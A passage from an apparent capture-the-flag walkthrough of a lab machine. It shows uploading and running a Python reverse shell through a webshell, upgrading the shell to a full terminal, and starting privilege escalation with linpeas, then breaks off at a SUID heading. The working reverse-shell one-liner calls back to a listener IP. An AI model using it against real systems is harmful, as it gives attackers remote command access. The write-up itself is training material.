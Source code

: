 
##### Uploading a reverse shell in the system: 

```bash
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.201.10.145",20001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' 
```

![](/assets/img/Pasted image 20230429144926.png)

##### Executing the uploaded reverse shell with the webshell: 

![](/assets/img/Pasted image 20230429144952.png)

##### Receiving the reverse shell: 

![](/assets/img/Pasted image 20230429145027.png)

##### Upgrading the reverse shell: 
```bash
`1.` python3 -c 'import pty; pty.spawn("/bin/bash")' 
`2.` export PATH=/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/games:/tmp 
`3.`export TERM=xterm-256color 
`4.`"Ctrl + shift + Z"
`5.`stty raw -echo ; fg ; reset 
`6.`<enter> 
```

![](/assets/img/Pasted image 20230429145133.png)

# Privilege Escalation Phase:

##### `9.` Enumerate for Privilege Escalation Vectors using **linpeas.sh**: 

![](/assets/img/Pasted image 20230429145214.png)

<u>Info found from files that seems interesting</u>:

- **Config**: 

![](/assets/img/Pasted image 20230429145300.png)

	- Shows us the password for some user probably.

- **/etc/profile.d/**: 

![](/assets/img/Pasted image 20230429152907.png)

		- I checked this out but there's nothing seems to be there that is interesting.

##### `10.` **SUID bit** enabled binaries:
